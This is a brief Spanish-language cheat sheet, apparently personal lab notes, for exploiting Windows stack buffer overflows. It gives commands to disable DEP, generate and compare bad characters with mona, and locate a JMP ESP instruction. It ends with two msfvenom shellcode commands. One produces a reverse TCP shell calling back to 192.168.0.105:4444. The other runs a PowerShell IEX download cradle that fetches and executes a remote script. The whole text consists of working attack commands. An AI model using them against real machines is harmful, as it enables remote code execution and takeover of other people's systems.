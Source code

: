 
## Desactivar DEP
```
bcdedit.exe /set {current} nx AlwaysOff
```

## BYTEARRAY
```pip install badchars```
```badchars -f python```

## MONA
#### Configurar carpeta de trabajo
```!mona config -set workingfolder C:\Users\win7bits\Desktop\%p```
#### Generar badchars
```!mona bytearray -b "\x00"```   
```!mona bytearray -b "\x00\x07"```
#### Comparar haciendo referencia al bytearray que generó y la dirección a la que apunta ESP
```!mona compare -f C:\mona\appname\bytearray.bin -a <address>```
#### Encontrar el punto de salto
```!mona jmp -r esp -cpb \x07\x2e\xa0\x00"```   
```!mona jmp -r esp -cpb "\x00"```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

#### Idioma teclado
ES Spanish (United States)
